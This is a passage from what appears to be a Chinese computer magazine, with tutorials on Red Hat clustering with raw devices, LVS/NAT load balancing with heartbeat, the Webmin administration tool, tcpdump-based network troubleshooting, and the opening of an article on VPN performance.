/dev/raw/raw1 /dev/sdb1
/dev/raw/raw2 /dev/sdb2
# service rawdevices restart
分配设备：
/dev/raw/raw1 --> /dev/sdb1
/dev/raw/raw1: bound to major 8, minor 17
/dev/raw/raw2 --> /dev/sdb2
/dev/raw/raw2: bound to major 8, minor 18
完成
# raw -qa
/dev/raw/raw1: bound to major 8, minor 17
/dev/raw/raw2: bound to major 8, minor 18
# 出现如上所示，表示成功。


```

## （七）配置 Cluster

我们要进入到 X-Windows 界面，点击系统设置—服务器设置—Cluster，点新建，在弹出的对话框中输入主辅机的 IP 地址，点 Cluster—Shared State，见图10。

弹出的对话框中就是我们刚才建立好的裸设备，点 Cluster—Cluster Daemon Properties，如图11所示。

在弹出的对话框中，我们选择 Enable Broadcast Heartbeating 这一项，然后一直按确定键。最后保存退出。我们再点击系统设置—服务器设置—Cluster，如图12所示。

点集群—>启动本地集群守护进程，之后会和上述图示一样。下面我们要开始添加服务节点。点集群—配置，调出配置界面，点 Services，点新建，在弹出的对话框中输入服务名字，如图13所示。
图12

在 User Script 这里要求输入 apache 的启动脚本，由于我是用 gcc 源码编译的，这里我们就不能写 `/etc/init.d/httpd start`。我这里在 `/usr/local/apache` 目录中，touch 一个 `apache_start` 文件，加入以下内容。

```bash
# vi /usr/local/apache/apache_start
#!/bin/sh
/usr/local/apache/bin/apachectl start
保存退出。
# chmod 755 /usr/local/apache/apache_start


```
图13

点 Add Child—Add Device，在 Device Special File 栏写入你的盘柜地址，这里本地测试。Mount Point 这里填写你的盘柜挂载点，FS Type 栏里写 ext3 分区，按确定，如图14所示。
图14

点 Add Child—Add Service IP Address，在弹出的对话框中输入虚拟 IP 地址，这里为 192.168.0.100。按确定，如图15所示。我们再回到控制台界面，启动 apache 服务进程，过两三秒钟你就会看到服务在运行。键入 `ifconfig` 可看到网卡多了一块。测试时在浏览器输入刚建立好的虚拟 IP 即可。把配置文件 `/etc/cluster.xml` 拷贝到辅机，可用命令：

```bash
# scp /etc/cluster.xml root@192.168.0.12:/etc/


```
图15

安装 cluster 软件包，然后启动 `service clumanager start`，回到主机后会发现辅机状态为活跃。测试时关闭主机，大约 3、4 秒辅机会接管其服务。

#### LVS 负载均衡的基本设置

这里以 LVS/NAT 方式做讲解。至于 LVS/TUN 和 LVS/DR 方式，实际工作中未涉及，故不展开，有兴趣可参考相关论文资料。

### （一）设定 LVS/NAT 方式的负载均衡集群

NAT 是指 Network Address Translation。其转发流程是：Director 机器收到外界请求后，改写数据包目标地址，按调度算法发送到相应 Real Server；Real Server 处理后将结果回送默认网关（Director），Director 再改写源地址返回外界。这样完成一次负载调度。一个最简单的 LVS/NAT 负载均衡集群如图16所示。
图16

项目实施环境：4 台服务器，两台为 LVS，两台为 Real。LVS 主机须为 Linux RedHat 9.0，其余两台不限。

### 使用的软件

- linux-2.4.20.tar.gz（kernel.org 下载）
- patch-2.4.20.gz（kernel.org 下载）
- linux-2.4.20-ipvs-1.0.9.patch.gz
- ipvs-1.0.9.tar.gz
- heartbeat-1.0.4-2.rh9.umi.i386.rpm
- heartbeat-pils-1.0.4-2.rh9.umi.i386.rpm
- heartbeat-stonith-1.0.4-2.rh9.umi.i386.rpm

### （二）安装与配置

```bash
# cd /usr/src/
# rm linux-2.4.20
# rm -rf linux-2.4.20-8
# tar zxvf linux-2.4.20.tar.gz
# gunzip linux-2.4.20-ipvs-1.0.9.patch.gz
# cd linux-2.4.20
# gunzip ../patch-2.4.20.gz | patch -p1
# cd ..
# patch -p1 < ../linux-2.4.20-ipvs-1.0.9.patch
```

打上修正 ARP 问题的内核补丁时，如果采用 LVS/TUN 和 LVS/DR 方式，Real Server 上必须做，虚拟主机不必做。

```bash
# vi /usr/src/linux/Makefile
# EXTRAVERSION=-LVS
# make mrproper
# startx
# make xconfig
```

保存退出。

```bash
# make dep
# make clean
# make bzImage
# make modules
# make modules_install
# depmod -a
# cp System.map /boot/System.map-2.4.20-LVS
# ln -s /boot/System.map-2.4.20-LVS /boot/System.map
# cp arch/i386/boot/bzImage /boot/vmlinuz-2.4.20-LVS
# ln -s /boot/vmlinuz-2.4.20-LVS /boot/vmlinuz
# new-kernel-pkg --mkinitrd --depmod --install 2.4.20-LVS
```

执行最后一步时，它会自动修改你的 `/etc/grub`。

```conf
title Red Hat Linux (2.4.20-LVS)
  root (hd0,2)
  kernel /boot/vmlinuz-2.4.20-LVS ro root=LABEL=/ hdd=ide-scsi
  initrd /boot/initrd-2.4.20-LVS.img
title Red Hat Linux (2.4.20-8)
  root (hd0,2)
  kernel /boot/vmlinuz-2.4.20-8 ro root=LABEL=/ hdd=ide-scsi
  initrd /boot/initrd-2.4.20-8.img
```

我们把 `LABEL=/` 改成 `/dev/hda1`（按自己的分区调整），可用 `df -h` 查看，然后 `shutdown -r now`。

### 安装 IP 虚拟服务器软件 ipvsadm

```bash
# cd /usr/src/
# tar zxvf ipvs-1.0.9.tar.gz
# cd ipvs-1.0.9/ipvs/ipvsadm
# make install
```

安装完，执行 `ipvsadm` 命令，应该有类似如下的信息出现：

```bash
# ipvsadm
IP Virtual Server version 1.0.9 (size=4096)
Prot LocalAddress:Port Scheduler Flags
  -> RemoteAddress:Port           Forward Weight ActiveConn InActConn


```

出现类似以上信息，表明支持 LVS 的内核和配置工具 ipvsadm 已安装完成。下面开始配置，实施拓扑图如图17所示。
我们写一个 ipvsadm 的脚本放入 `/usr/sbin` 下：

```bash
#!/bin/bash
echo "1" > /proc/sys/net/ipv4/ip_forward
echo "1" > /proc/sys/net/ipv4/conf/all/send_redirects
echo "1" > /proc/sys/net/ipv4/conf/default/send_redirects
echo "1" > /proc/sys/net/ipv4/conf/eth0/send_redirects
iptables -t nat -A POSTROUTING -s 192.168.7.0/24 -d 0.0.0.0/0 -o eth0 -j MASQUERADE
/sbin/ipvsadm -C
/sbin/ipvsadm -A -t 192.168.6.110:80 -s wrr
/sbin/ipvsadm -a -t 192.168.6.110:80 -r 192.168.7.21:80 -m -w 2
/sbin/ipvsadm -a -t 192.168.6.110:80 -r 192.168.7.22:80 -m -w 3
/sbin/ipvsadm
# chmod 755 /usr/sbin/ipvsadm
```

切换到真实服务器上，把网关改写成 192.168.7.2 即可，其他不用设置。运行该脚本后，一个简单的 LVS/NAT 方式的负载均衡集群已经成功架设。下面安装 HA，起到热切换作用。

```bash
# rpm -ivh heartbeat-1.0.4-2.rh9.umi.i386.rpm
# rpm -ivh heartbeat-pils-1.0.4-2.rh9.umi.i386.rpm
# rpm -ivh heartbeat-stonith-1.0.4-2.rh9.umi.i386.rpm


```

安装完成后，从 `/usr/share/doc/heartbeat-1.0.4` 下，把 `ha.cf`、`authkeys`、`haresources` 三个文件拷贝到 `/etc/ha.d` 下。`ha.cf` 是主要 heartbeat 的配置文件，`authkeys` 是 heartbeat 的安全配置文件，`haresources` 文件是 heartbeat 的资源文件。注意双方都要设置成一样才可以启动。

从上面的区别不难看出，都不是很完美。cluster 不能分担服务，直到该主机 down 掉，才会通过 HA 程序来接管辅机，此时在辅机会自动开启一个虚拟地址。这样当外网用户访问同一个 IP 不会出现找不到的情况，因为网络寻址是通过 MAC，而不是 IP。而 LVS 是基于服务，不能做到数据的可靠性。

分析了两种不同的工作方式，我得出了一个新的设想，就是将其合并。做法：4 台服务器，其中两台服务器连接盘柜，另两台一台为 LVS，一个为 LVS 备份。连接盘柜时，不用再划分 raw 设备，不用再安装 HA 软件，直接将其格式化为 ext3 格式，然后分别加入 `/etc/fstab`，在本地可分别建立 `/share` 目录，重启系统的时候会自动加载。然后把做好的 LVS 将其组合，这样各方面性能都兼顾了，非常适合大型的网络管理使用。

- 适合读者：Linux 爱好者、网管
- 前置知识：Linux 基本操作

#### Webmin：方便的 Linux 安全管理工具
在配置 Linux 操作系统时，很多人的第一个感觉就是服务太多，而且每一种服务都不容易配置。要是能有一个图形化的界面工具来帮助完成各项配置工作的话，那就好多了。其实 Linux 上有一套 Web 界面的管理工具 Webmin，可以帮助系统管理者通过 Web 界面就可以轻易管理好 Linux Server。它可以轻松配置 Linux 服务器，甚至是远程配置目前 Linux 上运行的所有服务。Webmin 有很多特点，它可以配置几乎所有运行在 Linux 上的服务器，包括 Linux、AIX、HPUX、Solaris、OS X 等。它具有一个 Web 前端，可以完成 Linux 中的诸多管理任务。通过增加模块，其功能可以被不断扩展，这是因为 Webmin 支持开发者增加新的模块，用户可以针对自己的需求自行开发，也可以使用别人开发的模块。

检查系统是否已经安装了 Webmin，在文本终端中输入：`rpm -q Webmin`。如果没有安装 Webmin，系统会提示 `package Webmin is not installed`。然后在安装文件目录下输入类似如下的命令：`rpm -ivh Webmin-1.200-1.noarch.rpm`。回车后，系统会完成安装，如图1所示。

## Webmin 的下载和安装

软件下载地址：`http://www.Webmin.com/`。下载完毕后，我们会注意到 Webmin 被作为 “noarch” 软件包列出来。由于 RPM 是二进制文件，它们通常为特定的体系结构进行编译，比如 i386 或者 ppc，在错误的体系结构上安装软件包会导致错误的结果。因为 Webmin 是用 Perl 编写的，而 Perl 是体系结构无关的，所以 Webmin 被标识为 “noarch”。如果使用 RedHat Linux，那么最简单的是使用 RPM 安装方法。以下我们假定是以 RPM 方式进行安装。
> Practical Extraction and Reporting Language（Perl 语言）是 1987 年出现的一种多平台的解释性编程语言。它在多种平台上都可以使用，包括 Windows，具有成熟完善的脚本功能。当 Webmin 安装后，默认是启用的，但是这样安装并没有启用 SSL。SSL 需要安装一个称为 Net::SSLeay 的 Perl 模块。如果不安装这个模块，Webmin 只有从本地控制台运行时才是安全的。

安装完成后，可以在本地或者远程浏览器上打开一个特定的端口来进入 Webmin，通常是 10000。这是安装时程序缺省提供的 HTTP 服务端口，安装时可以根据自己的情况随意设定。不过，一般不要占用小于 1024 的端口。下面，我们来测试 Webmin 是否安装成功：首先打开浏览器，在本地系统的浏览器中输入 `http://localhost:10000/`，可以看到一个管理登录页面。这时会弹出一个窗口，要求用户输入管理员名称及口令。至此表明，安装在 Linux 系统下的 Webmin 可以正常工作了。正确输入用户名及口令，就可以对系统进行管理了。如图 2 所示。

可以使用自己所喜欢的 Web 浏览器来访问 Webmin。比如，除了可以通过 Netscape 浏览器访问外，还可以在 Windows 平台下通过 IE 浏览器访问。下面，我们来看看其中的相关管理技巧。

## 1. Webmin 界面

登录后，我们看到的第一个屏幕将是 Webmin Configuration Section，包括使用帮助、配置 Webmin（包括服务端口号、服务模块管理、日志、用户界面、访问控制等）。所有的模块都是可配置的，你可以根据自己的需要对它们进行重组。如图 3 所示。

图 2

图 3

## 使用 Webmin

由于 Webmin 是基于 Web 的管理工具，所以 Webmin 本身安全的重要性就不言而喻了。Webmin 的安全性主要体现在如下 3 个方面。首先是 SSL 支持。通过设定 Webmin 支持 SSL，用户可以通过 https 访问 Webmin。SSL 不仅会认证你的 Webmin 服务器，而且还会对管理过程中的网络通信进行加密。其次，是用户访问控制。用户访问控制使得管理员能控制每个模块能由哪些用户访问，访问某个模块的用户能够对该模块进行哪些操作等。再次，是 IP 访问控制。IP 访问控制可以限定哪些 IP 地址可以访问这个 Webmin 服务器，不在访问列表内的 IP 地址的访问将被禁止。通过这些安全性加强，我们大可以安心地使用 Webmin 作为系统管理工具。总之，Webmin 这种 Linux、UNIX 系统管理工具，为我们正确高效地完成各种关键的系统配置提供了极大的方便。

Webmin 工具是基于控制台工具的前端，它可靠地完成管理任务。Webmin 的管理工作是通过网页的方式来实现的，可以分为 5 个功能部分：Webmin 自身配置、系统配置管理、服务配置管理、硬件配置、其他配置。其中，Webmin 菜单提供配置 Webmin 本身的选项；System 页面提供配置启动过程和管理用户的选项；Server 页面提供配置后台程序（Daemon）的选项；Hardware 页面提供管理外部设备的选项；Cluster 页面提供管理集群的选项；Others 页面提供文件管理、Perl 模块管理等选项。所有操作简单、直观，非常适合初学者。另外，我们可...

## 2. System 界面

System 系统配置是对系统文件、系统日志、用户及组、进程、软件包、cron 等进行管理，而这些管理工作通常都是管理员通过控制台进行维护的。使用 Webmin 对系统进行维护时，在这里用户可以配置文件系统、用户、组和系统通常的引导行为。你可以控制系统中运行的服务，通过选择 Bootup 和 Shutdown 图标来决定它们是否自动启动。不过，对那些服务的具体配置是由 Servers 界面完成的。尤其要注意 “Software Package” 工具，它可以方便地查看你系统中已经安装的软件包，以及发行版本升级库和 rpmfind.net 的接口。rpmfind.net 是 Internet 上的一个公用 RPM 库，如图 4 所示。

图 4

一个比较典型的管理实例如下：Webmin 提供了对定时进程管理的图形化配置。登录进入 Webmin 以后，进入 “System（系统）” 配置模块，选择“进程管理器”，即可看到所有的进程。它们是按照进程号 PID 的大小顺序来排列显示的。在最上端有几个链接：用户、内存和 CPU 分别用来按不同的属性顺序来显示进程；“搜索”链接用来搜索某个特定的进程。单击该链接，出现界面。用户可以在此指定进程属主、进程的工作目录、进程打开的文件、使用 CPU 的百分比、打开的端口等属性来搜索进程。

## 3. Networking 界面

Networking 网络界面所提供的工具可以用来配置网络硬件和进行一些复杂的网络控制，比如防火墙。所有的工具都要去修改标准的配置文件，因此，用户在 Webmin 中所做的任何工作都可以通过控制台工具来完成。如图 5 所示。

## 4. Servers 界面

Servers 服务配置管理包括在“系统”栏目中可配置的各种服务：Apache 服务、FTP 服务、域名服务、代理服务、邮件及邮件列表服务（其中包括 Sendmail、Postfix 等邮件服务器管理）、Samba 服务器等。其中，Samba 工具很好用，它不仅能够实现 Windows 系统下共享 Linux 系统中的目录，也能够实现光驱、打印机等共享。如果在安装系统时直接选择安装 Samba 服务，系统会自动为用户安装 Samba。如果没有选择安装 Samba 服务，可以到 Samba 的网站（http://www.samba.org/）下载，也可在机器启动后将 Linux 安装光盘放进光驱进行安装。另外，Webmin Sendmail 工具可以很轻松地对 SMTP 服务器进行配置。如图 6 所示。

## 5. Hardware 界面

Hardware 硬件配置管理包括磁盘分区、RAID 配置、DHCP、打印机配置等，主要用于配置物理设备。特别值得关注的是逻辑卷管理（Logical Volume Management，LVM）工具，它可以帮你可视化地管理你的 Linux 系统上的动态卷。如图 7 所示。

## 6. Cluster 界面

Cluster 集群界面中的工具用于管理集群系统。集群是一个高级主题，可能需要安装一些你的 Linux 发行版本没有自带的软件包。如图 8 所示。

## 7. Others 界面

Others 界面中有各种各样的工具。其中，“SSH/Telnet Login”和“File Manager”工具需要 applet 支持，只有在浏览器上安装了 JRE 以后才可以运行。“Perl Modules”工具可以使你紧跟 Perl 模块的发展，它可以直接连接到 Internet 上的 CPAN。“File Manager”工具为服务器的文件系统提供了一个像浏览器一样的视图；如果在远程工作，那么不通过工作站的内存就可以对文件进行移动和复制。“SSH/Telnet Login”工具是一个远程 shell 控制台，使用者可以通过浏览器进入控制台。

通过上面的功能演示，我们发现 Linux 操作系统下的很多工作都可以通过 Webmin 来进行管理。这对系统管理员来说，实在是太简单了。如果管理员在外地出差，只需要打开浏览器就可以轻松管理自己的服务器，大大减少了管理员的工作量，而且可以达到比较好的安全效果。

适合读者：网管、Linux 爱好者  
前置知识：Unix/Linux 使用基础

#### TCPDump 在 Linux 网管中发挥作用

文／图 彭文波

对于网络管理员来说，要保证整个网络的正常运行，就必须随时了解网络中存在的异常流量、网络阻塞等现象。但是，随着网络要求的不断提高，一个大型网络很可能会同时拥有多种操作系统、多种网络设备，以前那一套以 Windows 操作系统为中心的管理方法开始面临很多问题。怎么办？很明显，网络管理员必须学会着眼于未来新的技术和应用，扩展网络的性能。本文就是定位于这样一个复杂的环境，通过介绍 Linux 下的嗅探工具，给网络管理员提供一些新的参考。

## 从嗅探到网管

### 1．Windows 下的嗅探技术

在传统的网络分析和测试中，嗅探器 Sniffer 是最常见也是最重要的技术之一。打个比方，一部电话的窃听装置可以用来窃听双方通话的内容，而计算机网络嗅探器则可以窃听计算机程序在网络上发送和接收到的数据。但是，计算机所传送的数据是大量的二进制数据，因此，一个网络窃听程序也必须使用特定的网络协议来分析数据，进行正确的解码。

用过 Windows 平台上的 Sniffer 工具的朋友都知道，在共享式的局域网中，采用 Sniffer 工具简直可以对网络中的所有流量一览无遗！因此，对于网络管理人员来说，使用嗅探器可以随时掌握网络的实际情况，在网络性能急剧下降的时候，可以通过 Sniffer 工具来分析原因，找出造成网络阻塞的来源。对于网络程序员来说，可以通过 Sniffer 工具来调试程序，找出发生问题的原因。站在另外一个角度，对于需要了解某个网络信息的攻击者来说，嗅探器还可能成为他的一个攻击法宝。如图 1 所示，就是一个 Windows 下的嗅探器。

图 1

TCPDump 可以将数据包的“头”完全截获下来提供分析。它支持针对网络层、协议、主机、网络或端口的过滤，并提供 and、or、not 等逻辑语句来帮助你去掉无用的信息。

在 Linux 下 TCPDump 的安装十分简单，一种是以 rpm 包的形式进行安装，另一种是以源程序的形式安装。以 rpm 包安装的方法比较简单，通过 rpm 命令可以直接安装。rpm 包是将软件编译后打包成二进制格式，不需要修改任何东西。安装时，以超级用户登录，参考命令如下：`#rpm -ivh TCPDump.rpm`。这样，TCPDump 就可以顺利地安装到 Linux 系统中。不过，现在较高版本的 Linux 操作系统都自带了这个工具。关于 TCPDump 更详细的信息，可以查看 `man tcpdump`。

普通情况下，不带参数执行 TCPDump，即 `#tcpdump`，截获的是通过第一个网络界面的数据包。直接启动 TCPDump 将监视第一个网络界面上所有流过的数据包。如图 2 所示。

从上面的输出结果来看，TCPDump 的基本输出格式为：“系统时间、来源主机.端口 > 目标主机.端口 数据包参数”。仔细观察，我们会发现，和上面的 Windows 界面相比，数据包格式有很多相似之处，这样也有助于我们了解这个软件的使用方法。

### 2．Linux 下的 TCPDump

在日常的网络管理实践中，我们通常把 Linux 作为网络服务器，特别是作为路由器和网关。所以，数据的采集和分析是必不可少的。那么，对于钟爱 Linux 的网络安全爱好者来说，能找到这样一款强大的 Linux 下嗅探器吗？答案是肯定的。今天我们就来看看 Linux 中强大的网络数据采集分析工具——TCPDump。这是一个免费的网络分析工具，它还提供了源代码并公开了接口，具备很强的可扩展性。

## TCPDump 的参数

### 1．基本参数分析

TCPDump 支持多种不同参数，如使用 -i 参数指定 TCPDump 监听的网络界面，这在计算机具有多个网络界面时非常有用。使用 -c 参数可以指定要监听的数据包数量，使用 -w 参数指定将监听到的数据包写入文件中保存，等等。然而，在数据的海洋中，TCPDump 中更复杂的参数主要是用于过滤。这是为什么呢？

因为在实际操作中，网络中流量很大，如果将所有的数据包都截留下来，数据量就会很大，反而不容易发现所需要的数据包。如果不带任何参数，TCPDump 就会搜索系统中所有的网络接口，并显示它截获的所有数据。这些数据对我们不一定全都需要，而且数据太多不利于分析。所以，我们应当先想好需要哪些数据。TCPDump 的语法为：

```bash
tcpdump [-adeflnNOpqStvxX] [-c<数据包数目>] [-dd] [-ddd] [-F<表达文件>] [-i<网络界面>] [-r<数据包文件>] [-s<数据包大小>] [-tt] [-T<数据包类型>] [-vv] [-w<数据包文件>] [输出数据格式]
```

其参数的具体含义如下：

| 参数 | 含义 |
|---|---|
| -a | 将网络地址和广播地址转换成名字； |
| -d | 将匹配信息包的代码以人们能够理解的汇编格式给出； |
| -dd | 将匹配信息包的代码以 C 语言程序段的格式给出； |
| -ddd | 将匹配信息包的代码以十进制的形式给出； |
| -e | 在输出行打印出数据链路层的头部信息； |
| -f | 将外部的 Internet 地址以数字形式打印出来； |
| -l | 使标准输出变为缓冲行形式； |
| -n | 不把网络地址转换成名字； |
| -t | 在输出的每一行不打印时间戳； |
| -v / -vv | 输出更详细的报文信息； |
| -c | 在收到指定数目的包后，tcpdump 就会停止； |
| -F | 从指定文件中读取表达式，忽略其它表达式； |
| -i | 指定监听的网络接口； |
| -r | 从指定文件中读取包（一般由 -w 产生）； |
| -w | 直接将包写入文件中，并不分析和打印出来； |
| -T | 将监听到的包直接解释为指定类型的报文； |
| -host | 设置截获包中包含哪些主机。 |

### 2．简单参数应用

了解了上述参数的基本意义，在实际使用中，我们可以灵活应用。现列举几个比较常用的例子。

- 1) 截获所有 192.168.10.1 主机收到的和发出的所有数据包。命令为：  
  `tcpdump host 192.168.10.1`  
  实际效果如图 3 所示。

图 3

- 2) 截获主机 192.168.10.1 和主机 192.168.10.2 或 192.168.10.3 的通信。使用命令（在命令行中使用括号时，一定要转义）：

```bash
#tcpdump host 192.168.10.1 and \(192.168.10.2 or 192.168.10.3\)
```

- 3) 如果想要获取主机 192.168.10.123 接收或发出的 telnet 包，使用如下命令：  
  `#tcpdump tcp port 23 host 192.168.10.123`

- 4) 获取主机 192.168.10.1 除了和主机 192.168.10.2 之外所有主机通信的 IP 包，使用命令：  
  `#tcpdump ip host 192.168.10.1 and ! 192.168.10.2`

以上只是几个典型的例子，使用时可以根据需要灵活应用。

在网络管理实践中，灵活运用 TCPDump 这个安全管理工具，可以帮助我们解决不少问题。

### 1．邮件服务器的网络故障分析

对于管理员来说，邮件服务器是一个很容易出现问题的管理对象。首先，我们来看看一个比较典型的故障现象。在某单位的局域网中有一台 qmail 邮件服务器，邮件服务器收发邮件等基本功能正常，但在使用中发现一个普遍的怪现象：在 PC 机上发邮件时，连接邮件服务器后，要等待很长时间才能开始工作。从检测来看，网络连接没有问题，邮件服务器和 PC 性能都没有问题，问题可能出在哪里呢？

为了查找问题所在，可以采用以下测试方法。首先，我们在 PC 机 Client 上发送邮件，同时在邮件服务器 Server 上使用 TCPDump 对这个 Client 的数据包进行捕获分析，如下：

```bash
#TCPDump host Client
TCPDump: listening on hme0
23:41:30.040578 Client.1065 > Server.smtp: S 1087965815:1087965815(0) win 64240 (DF)
23:41:30.040613 Server.smtp > Client.1065: S 99285900:99285900(0) ack 1087965816 win 10136 (DF)
23:41:30.040960 Client.1065 > Server.smtp: ack 1 win 64240 (DF)
```

然后，通过分析数据，我们看到双方顺利地完成了会话，也就是说到目前为止，整个状态属于正常现象。沿着这个思路，我们往下看：

```bash
23:41:30.048862 Server.33152 > Client.113: S 99370916:99370916(0) win 8760 (DF)
23:41:33.411006 Server.33152 > Client.113: S 99370916:99370916(0) win 8760 (DF)
23:41:40.161052 Server.33152 > Client.113: S 99370916:99370916(0) win 8760 (DF)
23:41:56.061130 Server.33152 > Client.113: R 99370917:99370917(0) win 8760 (DF)
23:41:56.070108 Server.smtp > Client.1065: P 1:109(108) ack 1 win 10136 (DF)
```

通过分析，我们就可以判断问题所在了。原来，问题在于我们看到 Server 端试图连接 Client 的 113 ident 端口要求认证，然而没有收到 Client 端回应。Server 端重复尝试了 3 次，费时 26 秒后才放弃认证请求，并主动发送了 reset 标志的数据包，开始 push 后面的数据。而正是在这个过程中所花费的 26 秒时间，造成了发送邮件时漫长的等待情况。

问题找到了，就可以修改。我们通过修改服务器端的 qmail 配置，使它不再进行 113 端口认证。经过修改再次测试，看到邮件服务器不再进行 113 端口认证尝试，而是在三次检测后直接 push 数据，问题得到完美解决。

### 2．流量软件的网络故障分析

Cisco 路由和交换平台中的 NetFlow 服务可提供内置在快速、最优和 CEF 交换路径之中的网络数据流统计功能。NetFlow 服务可利用网络中数据流创造价值，并可在最大限度减小对路由器/交换机性能影响的前提下，提供详细的数据流统计信息。特别是作为其交换功能的一部分，它能够为企业提供网络容量规划、趋势分析以及数据优先级等方面的信息。这些统计信息包括用户、协议、端口和服务类型等。

先看故障现象：在新装的网管工作站上安装 Cisco NetFlow 软件对路由设备流量等进行分析，路由器按照要求配置完毕，本地工作站软件安装正常，没有报错信息，但启动 NetFlow collector 后却收不到任何路由器上发出的流量信息，导致该软件失效。排除过程中，反复检查路由和软件，配置无误。采用逐步分析的方法，首先要定位出有问题的设备：是路由器根本没有发送流量信息，还是本地系统接收出现了问题？突然想到在路由器上我们定义了接收的 Client 端 UDP 端口 9998 接收数据，可以通过监视这个端口来看路由器是否确实发送了 UDP 数据。如果系统能够接收到来自路由的数据包，那么路由方面的问题可能性不大，反之亦然。现在，在网管工作站上使用 TCPDump 来看看：

```bash
#TCPDump port 9995
TCPDump: listening on hme0
18:15:34.373435 routea > nms.9995: udp 1464
18:15:34.373829 routea.50111 > nms.9995: udp 1464
18:15:34.374100 routea.50111 > nms.9995: udp 1464
```

现在，我们可以看到数据包确实从路由器上发过来了，问题出在路由器的可能性基本排除。重新核查系统，果然网管工作站上安装了防火墙，UDP 端口 9998 被屏蔽。调整工作站上的防火墙配置后，NetFlow 工作恢复正常，故障得以排除。

### 3．ARP 协议网络故障

ARP（Address Resolution Protocol）的全称是地址解析协议。在局域网中，网络中实际传输的是“帧”，帧里面有目标主机的 MAC 地址。在以太网中，一个主机要和另一个主机进行直接通信，必须要知道目标主机的 MAC 地址。但这个目标 MAC 地址是如何获得的呢？它就是通过地址解析协议获得的。所谓“地址解析”，就是主机在发送帧前将目标 IP 地址转换成目标 MAC 地址的过程。ARP 协议的基本功能就是通过目标设备的 IP 地址，查询目标设备的 MAC 地址，以保证通信顺利进行。

下面我们来看一个 ARP 协议的故障现象。局域网中有一台采用 Solaris 操作系统的服务器 BSERVER，现在网络连接不正常，从任意主机上都无法 ping 通该服务器。出现故障后，首先检查系统，发现系统本身工作正常，没有特殊进程运行，CPU、内存利用率正常，无挂接任何形式的防火墙，网线也正常。问题在哪里呢？我们借助 TCPDump 来进行故障定位。首先我们从 B-CLIENT 主机上执行 ping 命令，发送 ICMP 数据包给 BSERVER，如下：

```bash
# ping BSERVER
PING BSERVER from B-CLIENT : 56(84) bytes of data.
```

此时在 BSERVER 启动 TCPDump，对来自主机 B-CLIENT 的数据包进行捕获：

```bash
BSERVER# TCPDump host B-CLIENT
TCPDump: listening on hme0
16:32:32.611251 arp who-has BSERVER tell B-CLIENT
16:32:33.611425 arp who-has BSERVER tell B-CLIENT
16:32:34.611623 arp who-has BSERVER tell B-CLIENT
```

我们看到，没有收到预料中的 ICMP 报文，反而捕获到了 B-CLIENT 发送的 ARP 广播包。由于主机 B-CLIENT 无法利用 ARP 得到服务器 BSERVER 的地址，因此反复询问 BSERVER 的 MAC 地址。由此看来，高层出问题的可能性不大，很可能在链路层有些问题。先来查看主机 BSERVER 的 ARP 表：

```bash
BSERVER#: arp -a
Net to Media Table
Device  IP Address  Mask  Flags  Phys Addr
------------------------------------------------
hme0  netgate  255.255.255.255  00:90:6d:f2:24:00
hme0  BSERVER  255.255.255.255  S  00:03:ba:08:b2:83
hme0  BASE-ADDRESS.MCAST.NET  240.0.0.0  SM  01:00:5e:00:00:00
```

请注意 BSERVER 的 Flags 位置，我们看到了只有 S 标志。我们知道，Solaris 操作系统在 ARP 实现中，ARP 的 flags。

需要设置 P 标志，才能响应 ARP requests。手工增加 P 位：

`BSERVER# arp -s BSERVER 00:03:ba:08:b2:83 pub`

此时再调用 `arp -a` 看看：

```bash
BSERVER# arp -a
Net to Media Table
Device  IP Address  Mask  Flags  Phys Addr
hme0  netgate  255.255.255.255  S  00:90:6d:f2:24:00
hme0  BSERVER  255.255.255.255  SP  00:03:ba:08:b2:83
hme0  BASE-ADDRESS.MCAST.NET  240.0.0.0  SM  01:00:5e:00:00:00


```

我们看到本机已经有了 SP 标志，此时再测试系统的网络连接恢复正常，问题得到解决。

通过这些例子，我们不难发现，用好 TCPDump 这类的包分析软件，配合其他的管理工具，对系统管理员快速准确定位网络故障、分析网络问题有不可替代的作用。通过熟悉本文所介绍的 TCPDump，并掌握其中的一些技巧，网络管理员就可以很轻松地对复杂网络进行管理了。

**刘流：** 目前在很多企事业单位中 VPN 网络应用非常广泛，传统方式构建的 VPN 网络因防火墙的原因性能方面不如人意，特别是网络传输速度较慢。本文介绍一种构建 VPN 网络的新方法，可以大大提高 VPN 网络速度，实现非常方便，其采用的隧道技术也值得关注。

**适合读者：** 网络管理员，系统维护人员

**前置知识：** VPN 基本概念

#### 浅析构建 VPN 网络速度的新方法

文/图 苏州市职业科技大学·陈刚
随着宽带 Internet 网络的普及，信息化的发展正在改变着企业传统的运作方式，越来越多的企业都在逐步依靠计算机网络、应用系统来开展业务，同时也利用 Internet 来开展更多的商务活动。

稍具规模的企业都不会只有一个办公场所，而是具有总部、分公司、办事处、工厂等多个业务点。既然越来越多地应用了计算机和各类软件系统来处理企业业务，如何将位于不同地点的分支机构网络互联互通，就成了现代企业必须解决的问题。

虚拟专用网络对用户端透明，用户好像使用一条专用线路在客户计算机和企业服务器之间建立点对点连接，进行数据的传输。

虚拟专用网络技术同样支持企业通过 Internet 等公共互联网络与分支机构或其他公司建立连接，进行安全的通信。这种跨越 Internet 建立的 VPN 连接逻辑上等同于两地之间使用广域网建立的连接。

虽然 VPN 通信建立在公共互联网络的基础上，但是用户在使用 VPN 时感觉如同在使用专用网络进行通信，所以得名虚拟专用网络。

## VPN 的简介

用户的需求促进了 VPN 的诞生和高速发展。VPN 是虚拟专用网络的简称，其可以实现不同网络的组件和资源之间的相互连接。VPN 网络能够利用 Internet 或其他公共互联网络的基础设施为用户创建隧道，并提供与专用网络一样的安全和功能保障。如图1所示。
使用 VPN 技术可以解决在当今远程通信量日益增大、企业全球运作广泛分布的情况下，员工需要访问中央资源、企业相互之间必须进行及时和有效通信的问题。

## 构建 VPN 网络的相关要求

构建一个 VPN 网络，需要联网的双方都有连接互联网的线路，只要向当地 ISP 申请即可。今天，各种宽带上网方式（如 ADSL、城域网等）都在迅速发展，带宽和通信质量已经不再是瓶颈，资费也极大地降低，完全能够高效率、低成本地解决企业网络互联互通的需求。

硬件设备要求在网络两端各有一台含 VPN 功能的路由器或防火墙。一些中小规模的企业甚至不需路由器，只要有两台安装 VPN 功能的网络操作系统（如微软的 Windows 2000 Server）PC 作为 VPN 服务器即可组建 VPN 网络，非常方便。

## VPN 网络原理分析和不足

VPN 的核心技术主要涉及隧道技术和安全技术。其中安全技术主要是由于企业数据在公网中直接传输不安全，所采取的加密解密技术保证信息在 VPN 上传输是安全可靠的。

